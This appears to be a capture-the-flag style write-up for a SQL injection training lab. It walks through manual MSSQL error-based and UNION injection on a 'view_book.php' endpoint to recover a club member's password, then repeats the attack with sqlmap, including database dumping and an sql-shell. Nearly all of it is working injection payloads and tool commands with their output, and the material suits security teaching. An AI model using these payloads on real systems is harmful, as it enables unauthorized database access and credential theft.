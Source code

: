 ## Challenge #4 - Poema Reading club 7

## Objectives

- You want to find SQL injection vulnerabilities in the website, determining the type of SQL injection and its exploitability.
- You will also have to extract information from the database exploiting the vulnerability. This time you have to determine whether you can use a tool and eventually if you can use any other manual and more direct technique
- Find out Ruud password in the database

## What you will learn

- How to find SQL injection vulnerabilities manually
- How to determine which is the best SQL injection technique to use in certain cases
- How to extract information from a database using direct queries

## hints

- MSSQL
- Error-Based

## Resources

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md
- http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

## Steps

The vulnerable endpoint is view_book.php. Open this endpoint and put a single quote as id "'".

```
http://4.challenge.sqli.site/view_book.php?id='
```

You will receive a MSSQL Error message as response. You

```
Error: [Microsoft][SQL Server Native Client 11.0][SQL Server]Unclosed quotation mark after the character string ' '. Error: [Microsoft][SQL Server Native Client 11.0][SQL Server]Incorrect syntax near ' '. 
```

Sending the payload "id=9999 or 1=1-- -", as the there is no book with id 9999 the system will return the first book retrieved.

Finding the number of columns.

```
id=9999 order by 3

No errors

id=9999 order by 4

No errors

id=9999 order by 5

No errors

id=9999 order by 6

No errors

id=9999 order by 7


Error: [Microsoft][SQL Server Native Client 11.0][SQL Server]The ORDER BY position number 7 is out of range of the number of items in the select list. 
```

So, we have a query with 6 columns.

Now try yo pass a union query with numbers.


```
id=9999 union select 91,92,93,94,95,96
```

In response you will get the number 94 as book title and 91 as book id.

```
<span style="border:1; color: #000000;">94<BR/><BR/><img src="books/91.jpg"><br/>
</center>
<p class="links"><a href="view_book.php?id=91">Read More</a></p>
```

Use the next query to fetch the current database

```
id=9999 union select 91,92,93,db_name(),95,96

poema
```

Through the next query, we will try to fetch table name inside the database

```
id=9999 union select 91,92,93,name,95,96 from poema..sysobjects where xtype = 'U'


Error: [Microsoft][SQL Server Native Client 11.0][SQL Server]Cannot resolve the collation conflict between "SQL_Latin1_General_CP1_CI_AS" and "Latin1_General_CI_AS" in the UNION operation. 
```

To solve this error you need send the correct collate on the field.

```
id=9999 union select 91,92,93,name collate database_default,95,96 from poema..sysobjects where xtype = 'U'

books

id=9999 union select 91,92,93,name collate database_default,95,96 from poema..sysobjects where xtype = 'U' and name != 'books'

club_members
```

Now you need to list all columns from club_members table.

```
id=9999 union select 91,92,93,name collate database_default,95,96 from syscolumns where id = (select id from sysobjects where name = 'club_members')

city

id=9999 union select 91,92,93,name collate database_default,95,96 from syscolumns where id = (select id from sysobjects where name = 'club_members') and name != 'city'

id

id=9999 union select 91,92,93,name collate database_default,95,96 from syscolumns where id = (select id from sysobjects where name = 'club_members') and name != 'city' and name != 'id'

name

id=9999 union select 91,92,93,name collate database_default,95,96 from syscolumns where id = (select id from sysobjects where name = 'club_members') and name != 'city' and name != 'id' and name != 'name'

password
```

Now we can retrieve the Ruud password.

```
id=9999 union select 91,92,93,password collate database_default,95,96 from club_members where name = 'Ruud'

WJI80JFF9XQ
```

# SQLMap way

Send the endpoint to SQLMap.

```
sqlmap -u http://4.challenge.sqli.site/view_book.php?id=1 --dbms=mssql --batch

GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1956=1956

    Type: inline query
    Title: Generic inline queries
    Payload: id=(SELECT CONCAT(CONCAT(CHAR(113)+CHAR(98)+CHAR(106)+CHAR(118)+CHAR(113),(CASE WHEN (8259=8259) THEN CHAR(49) ELSE CHAR(48) END)),CHAR(113)+CHAR(107)+CHAR(122)+CHAR(113)+CHAR(113)))

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: id=1 AND 9928 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(106)+CHAR(118)+CHAR(113)+(SELECT (CASE WHEN (9928=9928) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(107)+CHAR(122)+CHAR(113)+CHAR(113)))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: id=1;WAITFOR DELAY '0:0:5'--

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: id=1 WAITFOR DELAY '0:0:5'

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-9405 UNION ALL SELECT NULL,NULL,NULL,CHAR(113)+CHAR(98)+CHAR(106)+CHAR(118)+CHAR(113)+CHAR(117)+CHAR(68)+CHAR(68)+CHAR(122)+CHAR(119)+CHAR(110)+CHAR(116)+CHAR(77)+CHAR(70)+CHAR(84)+CHAR(83)+CHAR(80)+CHAR(102)+CHAR(65)+CHAR(65)+CHAR(84)+CHAR(119)+CHAR(102)+CHAR(68)+CHAR(108)+CHAR(103)+CHAR(111)+CHAR(103)+CHAR(82)+CHAR(78)+CHAR(109)+CHAR(78)+CHAR(114)+CHAR(107)+CHAR(100)+CHAR(102)+CHAR(87)+CHAR(105)+CHAR(85)+CHAR(85)+CHAR(76)+CHAR(74)+CHAR(98)+CHAR(117)+CHAR(67)+CHAR(113)+CHAR(107)+CHAR(122)+CHAR(113)+CHAR(113),NULL,NULL-- CMEc
---
```

List all databases.

```
sqlmap -u http://4.challenge.sqli.site/view_book.php?id=1 --dbms=mssql --batch --dbs

available databases [11]:
[*] AdventureWorks
[*] AdventureWorks2014
[*] cmsmanagement
[*] ecommerce_books2
[*] Employees
[*] master
[*] model
[*] msdb
[*] poema
[*] tempdb
[*] usrmanagement
```

List all tables on poema database.

```
sqlmap -u http://4.challenge.sqli.site/view_book.php?id=1 --dbms=mssql --batch -D poema --tables

Database: poema
[2 tables]
+--------------+
| books        |
| club_members |
+--------------+

```

Get a sql-shell and query for the Ruud user.

```
sqlmap -u http://4.challenge.sqli.site/view_book.php?id=1 --dbms=mssql --batch -D poema -T club_members --sql-shell

select * from club_members where name = 'Ruud'

retrieved: 'Cerritos','12','Ruud','WJI80JFF9XQ','feugiat@nonsollicitudin.org','73544'
```
